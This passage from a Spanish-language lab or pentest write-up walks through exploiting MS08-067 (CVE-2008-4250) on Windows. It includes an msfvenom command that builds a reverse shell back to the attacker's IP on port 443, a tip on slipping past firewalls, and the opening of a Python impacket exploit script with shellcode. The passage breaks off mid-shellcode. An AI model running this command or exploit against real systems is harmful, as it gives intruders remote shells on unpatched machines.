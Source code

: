 ## Explotación
### CVE-2008-4250 / MS08-067 

Este cve permite a los atacantes remotos ejecutar código arbitrario por medio de una petición RPC creada que desencadena el desbordamiento durante una Canonicalización de Path. 

Generación de la shellcode. Para entender bien este processo nos hemos basado en este [post](https://medium.com/@PenTest_duck/offensive-msfvenom-from-generating-shellcode-to-creating-trojans-4be10179bb86). 
`-p` indicamos el payload
`LHOST y LPORT` Indicamos nuestra ip y puerto 
> **Nota** Recomendamos utilizar el puerto 443 porque es más facil que en caso de que haya un firewall lo deje pasar. 

`EXITFUNC` Indicamos como queremos cerrar el proceso 

`-b` Indicamos los badchars. 
`-f` El formato del shellcode
`-a --platform` Indicamos arquitectura y sistema operativo
`-v` Indicamos el nombre de la variable

```bash=
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 -v shellcode --platform windows
```
Antes de lanzar el exploit es importante saber como funciona a bajo nivel la vulnerabilidad a bajo nivel, este post explica muy bien la vulnerabilidad que se va a explotar ahora https://labs.f-secure.com/assets/BlogFiles/hello-ms08-067-my-old-friend.pdf.
Una vez que nos hemos informado del funcionamiento de esta buscamos y analizamos el exploit que vamos a lanzar y lo ejecutamos.
>**Nota**: Es importante tener instalado impaket para ejecutarlo


```python=
#!/usr/bin/env python3
import struct
import time
import sys
from threading import Thread  # Thread is imported incase you would like to modify

try:
    from impacket import smb
    from impacket import uuid
    from impacket.dcerpc.v5 import transport
# ------------------------------------------------------------------------

# Example msfvenom commands to generate shellcode:
# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 -v shellcode -s 410 --platform windows

# Reverse TCP port 443:
shellcode=(
"\x33\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\x93\x27\xba\xda\x83\xee\xfc\xe2\xf4\x6f\xcf\x38\xda\x93\x27"
"\xda\x53\x76\x16\x7a\xbe\x18\x77\x8a\x51\xc1\x2b\x31\x88\x87"
"\xac\xc8\xf2\x9c\x90\xf0\xfc\xa2\xd8\x16\xe6\xf2\x5b\xb8\xf6"
"\xb3\xe6\x75\xd7\x92\xe0\x58\x28\xc1\x70\x31\x88\x83\xac\xf0"
"\xe6\x18\x6b\xab\xa2\x70\x6f\xbb\x0b\xc2\xac\xe3\xfa\x92\xf4"
"\x31\x93\x8b\xc4\x80\x93\x18\x13\x31\xdb\x45\x16\x45\x76\x52"
"\xe8\xb7\xdb\x54\x1f\x5a\xaf\x65\x24\xc7\x22\xa8\x5a\x9e\xaf"
"\x77\x7f\x31\x82\xb7\x26\x69\xbc\x18\x2b\xf1\x51\xcb\x3b\xbb"
"\x09\x18\x23\x31\xdb\x43\xae\xfe\xfe\xb7\x7c\xe1\xbb\xca\x7d"
"\xeb\x25\x73\x78\xe5\x80\x18\x35\x51\x57\xce\x4f\x89\xe8\x93"
"\x27\xd2\xad\xe0\x15\xe5\x8e\xfb\x6b\xcd\xfc\x94\xd8\x6f\x62"
"\x03\x26\xba\xda\xba\xe3\xee\x8a\xfb\x0e\x3a\xb1\x93\xd8\x6f"
```